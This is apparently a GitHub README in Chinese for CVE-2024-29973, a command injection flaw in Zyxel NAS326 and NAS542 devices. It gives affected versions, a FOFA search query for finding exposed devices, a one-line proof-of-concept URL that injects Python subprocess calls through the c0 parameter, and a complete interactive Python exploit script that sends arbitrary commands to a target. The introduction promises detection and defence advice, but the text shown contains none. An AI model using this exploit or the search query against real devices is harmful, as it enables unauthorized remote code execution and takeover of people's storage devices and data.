

# CVE-2024-29973

> **Create by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** Zyxel NAS设备  未授权命令注入


## 0x01 漏洞描述

Zyxel NAS 设备曝出了一个重大安全漏洞（CVE-2024-29973），该漏洞允许远程攻击者在受影响的设备上执行任意代码。这一漏洞已经被广泛关注，并被证实可以在实际中复现。本文将详细介绍该漏洞的成因、利用方式以及如何检测和防御这种攻击。

## 0x02 **漏洞成因**

Zyxel NAS 设备中存在一个不安全的 CGI 接口 `/cmd,/simZysh/register_main/setCookie`。该接口的参数 `c0` 没有正确的输入校验，导致用户可以通过特殊构造的输入来注入系统命令，并以设备权限执行这些命令。这种远程代码执行（RCE）漏洞为攻击者提供了完全控制受影响设备的能力，可能导致数据泄露、服务中断等严重后果。

## 0x03 影响版本

```cpp
Zyxel NAS326 < V5.21(AAZF.17)C0
Zyxel NAS542 < V5.21(ABAG.14)C0
```

## 0x04 fofa搜索语法

```cpp
body="/cmd,/ck6fup6/user_grp_cgi/cgi_modify_userinfo"
```

## 0x05 漏洞复现

### POC

```cpp
{Target Address}/cmd,/simZysh/register_main/setCookie?c0=storage_ext_cgi+CGIGetExtStoInfo+None)+and+False+or+__import__("subprocess").check_output("id",+shell=True)%23
```




### 利用脚本

```python
# TracelessSec
# By A-little-dragon

from datetime import datetime
import requests
from urllib.parse import quote

class ZyxelNASExploit:
    def __init__(self, url, verify=True):
        self.baseAPIUrl = url
        self.verify = verify

    def GetResponse(self, method, url, data=None, params=None, jsons=None, headers=None, re_conn=0):
        try:
            with requests.request(method=method, url=url, data=data, params=params, json=jsons, headers=headers,
                                  verify=self.verify) as response:
                return response.status_code, response
        except:
            if re_conn > 5:
                return 1001, ''
            self.GetResponse(method, url, data, params, headers, re_conn=re_conn + 1)

    def start(self):
        print("请输入要执行的命令！")
        while True:
            sendMSG = input("$ > ")
            if sendMSG == "exit":
                break
            code, res = self.GetResponse(method="GET",
                                         url=self.baseAPIUrl + f"/cmd,/simZysh/register_main/setCookie?c0=storage_ext_cgi+CGIGetExtStoInfo+None)+and+False+or+__import__(\"subprocess\").check_output(\"{quote(sendMSG)}\",+shell=True)%23")
            if code == 1001:
                print("请求失败！")
            else:
                try:
                    res = res.json()
                    if res["errmsg0"] == "OK":
                        print(res["zyshdata0"][0].replace("\\n", "\n"))
                    else:
                        print(res["errmsg0"], "结果如下：", res["zyshdata0"])

                except Exception as e:
                    print("出现错误！如下：", e)

if __name__ == '__main__':
    url = "http://{ip}:{port}/"
    ZyxelNASExploit(url=url, verify=True).start()

```